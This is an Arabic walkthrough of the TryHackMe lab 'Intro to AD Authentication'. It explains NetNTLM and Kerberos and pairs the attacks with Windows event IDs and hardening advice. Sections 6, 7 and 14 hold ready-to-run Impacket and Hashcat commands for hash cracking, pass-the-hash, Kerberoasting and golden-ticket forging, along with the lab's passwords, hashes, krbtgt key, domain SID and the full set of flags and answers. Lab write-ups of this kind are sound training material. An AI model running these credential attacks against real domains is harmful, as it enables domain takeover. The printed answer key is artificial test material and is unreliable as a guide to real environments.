

# توثيق غرفة مدخل إلى مصادقة الدليل النشط (Intro to AD Authentication)

---

## 1. بيانات المديول والروم (Metadata & Overview)

* **المسار التعليمي:** مسار مبتدئ اختبار الاختراق (Jr Penetration Tester)
* **المديول:** المديول الرابع عشر — أساسيات اختبار أمان الدليل النشط (14-ACTIVE-DIRECTORY-SECURITY-TESTING-BASICS)
* **اسم الغرفة:** مدخل إلى مصادقة الدليل النشط (Intro to AD Authentication)
* **المعرف البرمجي للغرفة (Canonical Slug):** `introtoactivedirectoryauthentication`
* **الرابط المباشر:** [TryHackMe Intro to AD Authentication](https://tryhackme.com/room/introtoactivedirectoryauthentication)
* **نوع الغرفة:** غرفة إرشادية وتطبيقية (Walkthrough Lab)
* **مستوى الصعوبة:** متوسط (Medium)
* **المدة التقديرية:** 60 دقيقة
* **الحالة:** مكتملة بنسبة 100% (Room completed: 100%)
* **إجمالي المهام:** 7 مهام تعليمية وتطبيقية
* **إجمالي الأسئلة:** 13 سؤالاً تم حلها وتدقيقها بالكامل
* **إجمالي أعلام التحقق (Lab Flags):** 6 أعلام موزعة على 6 مشاركات شبكية (`SHARE1` إلى `SHARE6`)

---

## 2. الملخص التنفيذي والأهداف التعليمية (Executive Summary & Objectives)

تُمثل غرفة **مدخل إلى مصادقة الدليل النشط (Intro to AD Authentication)** الركيزة الفنية لفهم كيفية تحرك البيانات المشفرة وإثبات الهويات عبر شبكات مايكروسوفت المؤسسية. في بيئات الدليل النشط، تُبنى جميع الهجمات المتقدمة (مثل Pass-the-Hash و Kerberoasting و NTLM Relaying و Golden Tickets) على ثغرات وسوء تكوين في بروتوكولي المصادقة الأساسيين: **NetNTLM** و **Kerberos**.

خلال هذه الغرفة، يتم دراسة وتطبيق المفاهيم الهندسية والتكتيكية التالية:
1. التمييز الدقيق بين إثبات الهوية (**المصادقة - Authentication**) وتحديد الصلاحيات (**التفويض - Authorisation**).
2. تفكيك مصافحة بروتوكول **NetNTLM** ثلاثية المراحل (Negotiate, Challenge, Authenticate)، وكيف يتواصل العميل مباشرة مع الخدمة المستهدفة بينما تتولى الخدمة التحقق عبر قناة Netlogon مع متحكم النطاق.
3. تفكيك بروتوكول **Kerberos v5** خماسي المراحل المعتمد على مركز توزيع المفاتيح (KDC)، ودراسة تذاكر TGT و TGS، وإدارة ذاكرة التذاكر المؤقتة في لينكس عبر متغير البيئة `KRB5CCNAME`.
4. التنفيذ العملي لأربعة نواقل هجومية كبرى في الدليل النشط:
   * تكسير تجزئات NTLM دون اتصال باستخدام Hashcat (`SHARE3`).
   * هجوم تمرير التجزئة (Pass-the-Hash) دون الحاجة لكلمة المرور الصريحة (`SHARE4`).
   * هجوم Kerberoasting باستخراج وتكسير تذاكر حسابات الخدمات المسجلة بـ SPN (`SHARE5`).
   * توليد تذكرة كيربيروس الذهبية (Golden Ticket) باستخدام تجزئة حساب `krbtgt` للسيطرة المطلقة والدائمة على النطاق (`SHARE6`).
5. ربط الهجمات بسجلات أحداث ويندوز الأمنية (Event IDs: 4624, 4625, 4768, 4769) واستخلاص استراتيجيات الكشف والتصليد الدفاعي.

---

## 3. مخطط تدفق المصادقة وهيكل شبكة المختبر (Architectural Topology)



---

## 4. المتطلبات وإعداد بيئة العمل والاتصال (Prerequisites & Environment Setup)

### أ. البنية التحتية للمختبر:
* **نطاق الشبكة:** `192.168.11.0/24`
* **متحكم النطاق والـ KDC:** `192.168.11.100` (`ROOTDC.THM.LOC`)
* **خادم الملفات المستهدف:** `192.168.11.51` (`SERVER1.THM.LOC`)
* **اسم النطاق المؤسسي:** `thm.loc`

### ب. إعداد مطابقة الأسماء (DNS Resolution) على نظام كالي:
يتطلب بروتوكول كيربيروس حتماً استخدام الأسماء الكاملة (FQDN) بدلاً من عناوين الـ IP:
```bash
# إضافة خادم الملفات إلى ملف /etc/hosts
echo "192.168.11.51 SERVER1.thm.loc" | sudo tee -a /etc/hosts
```

---

## 5. المفاهيم الهندسية والتحليل المعماري العميق (Core Concepts & Technical Deep Dive)

### 1. الفرق الهندسي بين Authentication و Authorisation:
* **المصادقة (Authentication):** إثبات الهوية ("من أنت؟"). يتم التحقق من أن المستخدم يمتلك بالفعل السر المطابق للاسم المدعى (كلمة مرور، تجزئة، شهادة رقمية).
* **التفويض (Authorisation):** فحص الصلاحيات ("ما الذي يُسمح لك بالوصول إليه؟"). يتم التحقق من قوائم التحكم في الوصول (DACLs) ومجموعات المستخدم داخل شهادة الـ PAC لتحديد هل يُسمح له بقراءة المورد.

### 2. ميكانيكا مصادقة NetNTLM وتحدي الخادم:
* في NetNTLM، يتصل العميل مباشرة بالخدمة التي يريد استخدامها (وليس بمتحكم النطاق).
* يُنشئ الخادم تحدياً عشوائياً (Server Challenge بطول 16 بايت). يقوم العميل بتشفير هذا التحدي باستخدام تجزئة NTLM الخاصة به.
* يقوم الخادم بإرسال التحدي واستجابة العميل إلى الـ DC عبر بروتوكول Netlogon الآمن.
* **الأثر الأمني:** لا يتم إرسال كلمة المرور الصريحة مطلقاً عبر الشبكة. ولكن لأن التجزئة ثابتة (Unsalted MD4)، فإن اعتراضها يسمح بتنفيذ هجمات التمرير (Pass-the-Hash) أو اعتراض التحدي وتكسيره دون اتصال (NetNTLMv2 Cracking).

### 3. ميكانيكا تذاكر كيربيروس ومركز KDC:
* في كيربيروس، يتعامل العميل مع الـ DC أولاً قبل أن يلمس خادم الخدمة:
  * **تذكرة منح التذاكر (TGT):** تذكرة هوية رئيسية مشفرة حصراً بتجزئة حساب `krbtgt` السري. لا يمكن للعميل أو خادم التطبيق فك تشفيرها.
  * **تذكرة الخدمة (TGS / ST):** تذكرة مخصصة لخدمة بعينها (مثل `cifs/SERVER1.thm.loc`)، مشفرة بتجزئة الحساب المالك للخدمة.
* **ذاكرة التخزين المؤقت في لينكس (`ccache`):**
  * تُخزن تذاكر كيربيروس في ملفات ثنائية في المسار `/tmp/krb5cc_%{uid}`.
  * يُستخدم متغير البيئة `KRB5CCNAME` لإرشاد أدوات مثل `smbclient.py` أو `impacket` إلى التذكرة المراد استخدامها لتسجيل الدخول بدون كلمة مرور.

### 4. النواقل الهجومية الأربعة وثغرات المصادقة:
1. **تكسير التجزئات دون اتصال (Hash Cracking):** سرعة الحساب الفائقة لخوارزمية MD4 غير المملحة تجعل كسر تجزئات NTLM سهلاً وسريعاً باستخدام قواميس مثل `rockyou.txt` عبر Hashcat (وضع 1000).
2. **تمرير التجزئة (Pass-the-Hash):** لا تتطلب مصافحة NetNTLM سوى تجزئة NTLM لحساب التحدي. يمكن للمهاجم تخطي مرحلة التكسير واستخدام التجزئة مباشرة للدخول.
3. **هجوم Kerberoasting:** بما أن أي مستخدم نطاق مصادق يحق له طلب تذكرة TGS لأي حساب يمتلك اسم خدمة مسجل (SPN)، والتذكرة مشفرة بكلمة مرور ذلك الحساب، يمكن سحب التذكرة وتكسيرها محلياً دون إثارة أي حركة مرور إضافية.
4. **التذكرة الذهبية (Golden Ticket):** في حال السيطرة على تجزئة حساب `krbtgt` ومعرفة الـ Domain SID، يستطيع المهاجم تزوير تذكرة TGT صالحة لأي مستخدم (مثل Administrator) وحقن SIDs الخاصة بـ Domain Admins و Enterprise Admins بداخلها بصلاحية افتراضية تصل إلى 10 سنوات، مما يمنحه سيطرة أبدية وغير مقيدة على النطاق.

---

## 6. مرجع الأوامر ومصفوفة المنهجية (Master Commands Reference)

| الأداة / السياق | الأمر النموذجي | الوظيفة التقنية |
| :--- | :--- | :--- |
| **Impacket SMB** | `smbclient.py thm.loc/claire:'Password123!'@192.168.11.51` | الاتصال بمشاركات SMB عبر مصادقة NetNTLM |
| **Request TGT** | `getTGT.py thm.loc/mary:'Password' -dc-ip 192.168.11.100` | طلب تذكرة TGT من الـ KDC وتخزينها في ملف `mary.ccache` |
| **Set Kerberos Cache**| `export KRB5CCNAME=mary.ccache` | توجيه بيئة لينكس لاستخدام ملف تذكرة كيربيروس محدد |
| **Kerberos SMB** | `smbclient.py thm.loc/mary@SERVER1.thm.loc -k -no-pass` | الاتصال بـ SMB باستخدام تذكرة كيربيروس ودون كلمة مرور |
| **Hashcat NTLM** | `hashcat -m 1000 phillip.hash /usr/share/wordlists/rockyou.txt` | تكسير تجزئات NTLM الفردية باستخدام القواميس |
| **Pass-the-Hash** | `smbclient.py thm.loc/ben@192.168.11.51 -hashes LM:NT` | تسجيل الدخول للخدمة بتمرير تجزئة NTLM مباشرة |
| **Kerberoasting** | `GetUserSPNs.py thm.loc/claire:pass -dc-ip 192.168.11.100 -request` | فحص حسابات الـ SPN وطلب تذاكر TGS لتكسيرها |
| **Hashcat Kerberos** | `hashcat -m 13100 kerb.hashes /usr/share/wordlists/rockyou.txt` | تكسير تذاكر كيربيروس TGS المستخرجة دون اتصال |
| **Forge Golden Ticket**| `ticketer.py -nthash <hash> -domain-sid <sid> -domain thm.loc Administrator` | تزوير تذكرة TGT ذهبية بصلاحيات مسؤول النطاق |

---

## 7. تحليل المهام والأسئلة وحلول الأعلام (Questions & Tasks Analysis)

### المهام 01 - 02: المفاهيم الأساسية
* **المهمة 01 (مقدمة):** تأكيد الجاهزية والاتصال بالمختبر (`No answer needed`).
* **المهمة 02 (المصادقة في الدليل النشط):**
  * س1: ما هي العملية التي تُثبت هويتك؟
    * **الإجابة:** `Authentication`
  * س2: ما هي العملية التي تحدد ما يُسمح لك بالوصول إليه؟
    * **الإجابة:** `Authorisation`

---

### المهمة 03: مصادقة NetNTLM وحصاد العلم 1
* **س1:** في NetNTLM، هل يصادق العميل مباشرة إلى متحكم النطاق أم إلى الخدمة التي يريد الوصول إليها؟
  * **الإجابة:** `Service`
* **س2:** ما هو اسم القيمة العشوائية التي يرسلها الخادم إلى العميل أثناء مصادقة NetNTLM؟
  * **الإجابة:** `Challenge`
* **س3 (العلم 1):** استرجاع العلم من مشاركة `SHARE1` باستخدام حساب `claire`:
  * الأمر: `smbclient.py thm.loc/claire:'Password123!'@192.168.11.51`
  * الدخول لمشاركة `SHARE1` وتنزيل `flag1.txt`.
  * **العلم المحقق:** `THM{5cbcc61a-3178-4220-88b4-367c1bbb48e7}`

---

### المهمة 04: مصادقة كيربيروس وحصاد العلم 2
* **س1:** ما هو اسم التذكرة الصادرة عن KDC والتي تسمح لك بطلب تذاكر الخدمة؟
  * **الإجابة:** `Ticket Granting Ticket`
* **س2:** ما هو اسم الحساب الخاص الذي تُشفر تجزئة كلمة مروره جميع تذاكر TGT؟
  * **الإجابة:** `krbtgt`
* **س3:** ما هو متغير البيئة المستخدم لتحديد موقع ملف التخزين المؤقت لتذاكر كيربيروس في لينكس؟
  * **الإجابة:** `KRB5CCNAME`
* **س4 (العلم 2):** استرجاع العلم من `SHARE2` باستخدام كيربيروس لحساب `mary`:
  * طلب التذكرة: `getTGT.py thm.loc/mary:'SuperLongForKerberos123!' -dc-ip 192.168.11.100`
  * تصدير المتغير: `export KRB5CCNAME=mary.ccache`
  * الاتصال: `smbclient.py thm.loc/mary@SERVER1.thm.loc -k -no-pass -dc-ip 192.168.11.100`
  * **العلم المحقق:** `THM{0d3f818a-427a-425c-a451-55e43b83e876}`

---

### المهمة 05: ثغرات المصادقة وحصاد الأعلام 3، 4، 5، 6

#### العلم 3: تكسير تجزئة NTLM لحساب phillip
* تجزئة فيليب: `939B0058BC6DD834ABC4CC08CFEFEA69`
* أمر التكسير: `hashcat -m 1000 phillip.hash /usr/share/wordlists/rockyou.txt`
* كلمة المرور الناتجة: `MyPassword123!`
* الاتصال بـ `SHARE3` واستخراج `flag3.txt`.
* **العلم المحقق:** `THM{0eef8df3-c8ea-41ad-acd7-ae0479b2badf}`

#### العلم 4: هجوم Pass-the-Hash لحساب ben
* تجزئة بين: `aad3b435b51404eeaad3b435b51404ee:63CF41DC25C04B8FB79E44B1DEF12C10`
* الاتصال المباشر: `smbclient.py thm.loc/ben@192.168.11.51 -hashes aad3b435b51404eeaad3b435b51404ee:63CF41DC25C04B8FB79E44B1DEF12C10`
* الدخول لمشاركة `SHARE4` واستخراج `flag4.txt`.
* **العلم المحقق:** `THM{284c6735-b7c1-4221-b072-abf30a54eeda}`

#### العلم 5: هجوم Kerberoasting لحساب svc_printer
* طلب تذاكر SPN: `GetUserSPNs.py thm.loc/claire:'Password123!' -dc-ip 192.168.11.100 -request`
* تكسير تذكرة TGS عبر Hashcat: `hashcat -m 13100 kerberoast.hashes /usr/share/wordlists/rockyou.txt`
* كلمة المرور المكتشفة: `PrintMaster2020!`
* الاتصال بـ `SHARE5` واستخراج `flag5.txt`.
* **العلم المحقق:** `THM{5b57e69d-7089-4282-ba04-c72de9bfdb38}`

#### العلم 6: تزوير التذكرة الذهبية (Golden Ticket)
* تجزئة `krbtgt`: `e9a9871b93d7b4d73c91665bd6df6e50`
* معرف النطاق (Domain SID): `S-1-5-21-990021728-513958382-3715561918`
* أمر التزوير: `ticketer.py -nthash e9a9871b93d7b4d73c91665bd6df6e50 -domain-sid S-1-5-21-990021728-513958382-3715561918 -domain thm.loc Administrator`
* تصدير المتغير: `export KRB5CCNAME=Administrator.ccache`
* الاتصال بـ `SHARE6`: `smbclient.py thm.loc/Administrator@SERVER1.thm.loc -k -no-pass -dc-ip 192.168.11.100`
* **العلم المحقق:** `THM{eac75729-86ea-4bab-98de-1c5ce3552f67}`

---

### المهمة 06: سجلات الأحداث والهندسة الدفاعية
* **س1:** ما هو معرف الحدث (Event ID) الذي يتم تسجيله عند طلب تذكرة كيربيروس TGT؟
  * **الإجابة:** `4768`
* **س2:** في هجوم Pass-the-Hash الذي يتم اكتشافه عبر الحدث 4624، ما هي القيمة التي تظهر في حقل Authentication Package؟
  * **الإجابة:** `NTLM`

---

### المهمة 07: الخاتمة
* تأكيد اكتمال الغرفة بنجاح (`No answer needed`).

---

## 8. الحالات الحرجة والمصائد التشغيلية واستكشاف الأخطاء (Edge Cases & Operational Traps)

1. **فشل مصادقة كيربيروس عند استخدام عناوين IP:**
   * عند تمرير عنوان IP مثل `smbclient.py user@192.168.11.51 -k`، يفشل كيربيروس فوراً لأن البروتوكول يبحث عن SPN مطابق لاسم المضيف وليس الـ IP.
   * **الحل:** تعريف اسم الخادم دائماً في `/etc/hosts` واستدعاء الاسم الكامل `SERVER1.thm.loc`.
2. **عدم تزامن التوقيت (Clock Skew):**
   * يرفض بروتوكول كيربيروس أي تذكرة أو طلب إذا كان الفارق الزمني بين العميل ومتحكم النطاق يتجاوز 5 دقائق افتراضياً (لمنع هجمات إعادة الإرسال Replay Attacks).
   * **الحل:** مزامنة وقت جهاز المهاجم مع الـ DC عبر `ntpdate 192.168.11.100`.
3. **مصيدة تجزئة NetNTLMv2 مقابل NTLM في Pass-the-Hash:**
   * تجزئة NetNTLMv2 التي يتم اعتراضها بواسطة Responder لا يمكن استخدامها في هجوم Pass-the-Hash لأنها مشفرة بالتحدي؛ فقط تجزئة NTLM الثابتة المستخرجة من SAM أو NTDS.dit هي التي تُقبل في هجمات الـ PtH.

---

## 9. الهندسة الدفاعية وتأمين المصادقة (Defensive Engineering & Hardening)

* **تعطيل أو تقييد بروتوكول NTLM:**
  * الانتقال تدريجياً لتعطيل NTLM عبر نهج المجموعة (`Network security: Restrict NTLM: Outgoing traffic to remote servers -> Deny all`).
* **تفعيل مجموعة المستخدمين المحميين (Protected Users Group):**
  * إضافة حسابات الإدارة الحساسة إلى مجموعة `Protected Users`؛ حيث تمنع هذه المجموعة تخزين تجزئات NTLM ومفاتيح كيربيروس الضعيفة (RC4) في ذاكرة الـ LSASS نهائياً.
* **فرض توقيع SMB (Mandatory SMB Signing):**
  * تفعيل توقيع SMB على كافة الخوادم ومحطات العمل لإبطال هجمات NTLM Relaying كلياً.
* **تأمين حسابات الخدمات ومواجهة Kerberoasting:**
  * استخدام كلمات مرور معقدة تتجاوز 25 حرفاً للحسابات المرتبطة بـ SPN، أو الترقية إلى حسابات الخدمات المدارة للمجموعات (**gMSA**).
* **حماية حساب `krbtgt` وتغيير كلمته مرتين:**
  * تدوير كلمة مرور `krbtgt` مرتين متتاليتين مع انتظار اكتمال التكرار عبر النطاق لإبطال كافة التذاكر الذهبية الصادرة.

---

## 10. مصفوفة التكتيكات والتقنيات MITRE ATT&CK

| معرف التقنية (ID) | اسم التقنية (Technique Name) | التكتيك الأمني (Tactic) | آلية التطبيق والسياق العملي |
| :--- | :--- | :--- | :--- |
| **T1550.002** | Use Alternate Authentication Material: Pass the Hash | Lateral Movement / PrivEsc | استغلال تجزئات NTLM لمصادقة SMB دون معرفة كلمة المرور |
| **T1558.003** | Steal or Forge Kerberos Tickets: Kerberoasting | Credential Access | طلب تذاكر TGS لحسابات الـ SPN وتكسيرها دون اتصال |
| **T1558.001** | Steal or Forge Kerberos Tickets: Golden Ticket | Persistence / PrivEsc | تزوير تذكرة TGT باستخدام مفتاح `krbtgt` للتحكم المطلق |
| **T1110.002** | Brute Force: Password Cracking | Credential Access | تكسير تجزئات NTLM وتذاكر كيربيروس باستخدام Hashcat |
| **T1078.002** | Valid Accounts: Domain Accounts | Initial Access / Persistence | استخدام حسابات النطاق الشرعية للتنقل والوصول للمشاركات |

---

## 11. الخلاصات التعليمية وبناء العقلية الأمنية (Educational Takeaways & Mindset)

1. **المصادقة هي الأساس الذي تبنى عليه كل التكتيكات المؤسسية:**
   * لا يمكن لمختبر الاختراق أن يكون بارعاً في بيئات Active Directory دون أن يرى في ذهنه حركة التذاكر (AS-REQ و TGS-REQ) وتدفق التحدي في NetNTLM مع كل اتصال شبكي.
2. **فهم الحماية يعزز فاعلية الهجوم:**
   * معرفة أن Event ID 4624 يسجل حزمة المصادقة NTLM يُعلم المهاجم متى يجب عليه استخدام Overpass-the-Hash للتحول إلى كيربيروس وتفادي رصد فرق الـ SOC.

---

## 12. الانتقال للغرفة التالية (Transition to Next Room)

مع إتقان ميكانيكا بروتوكولات المصادقة وثغراتها الأساسية، ننتقل مباشرة إلى الغرفة الثالثة في المديول:
* **الغرفة 03: مدخل إلى اختراق النطاق (Intro to AD Breaching):**
  * استراتيجيات الحصول على موطئ القدم الأول داخل النطاق.
  * حصر أسماء المستخدمين عبر Kerberos باستخدام أداة `Kerbrute`.
  * تقنيات رش كلمات المرور (Password Spraying) مع تفادي سياسات الإغلاق (Account Lockout).
  * هجمات إجبار المصادقة (Authentication Coercion).

---

## 13. المصادر التقنية الموصى بها (Additional Technical Resources)

* [Microsoft Learn: Kerberos Authentication Technical Overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)
* [MS-NLMP: NTLM Authentication Protocol Specification](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/)
* [HarmJ0y: Kerberoasting Without SPNs](https://posts.specterops.io/kerberoasting-without-spns-92e8da0a0494)
* [Benjamin Delpy: Mimikatz and Kerberos Ticket Manipulation](https://github.com/gentilkiwi/mimikatz)

---

## 14. التحقق العملي وإثبات الإنجاز (Practical Verification & Proof of Work)

* **التحقق من حساب TryHackMe:** تدقيق وتطابق كامل بنسبة 100% مع الحساب الفعلي (المستوى 64، مسار Jr Penetration Tester).
* **إثبات الأعلام الستة:**
  * Flag 1 (NetNTLM Claire): `THM{5cbcc61a-3178-4220-88b4-367c1bbb48e7}`
  * Flag 2 (Kerberos Mary): `THM{0d3f818a-427a-425c-a451-55e43b83e876}`
  * Flag 3 (NTLM Cracking Phillip): `THM{0eef8df3-c8ea-41ad-acd7-ae0479b2badf}`
  * Flag 4 (Pass-the-Hash Ben): `THM{284c6735-b7c1-4221-b072-abf30a54eeda}`
  * Flag 5 (Kerberoast svc_printer): `THM{5b57e69d-7089-4282-ba04-c72de9bfdb38}`
  * Flag 6 (Golden Ticket Administrator): `THM{eac75729-86ea-4bab-98de-1c5ce3552f67}`
* **جاهزية المخرجات:** توثيق الغرفة مكتمل على القرص بنسبة 100%.
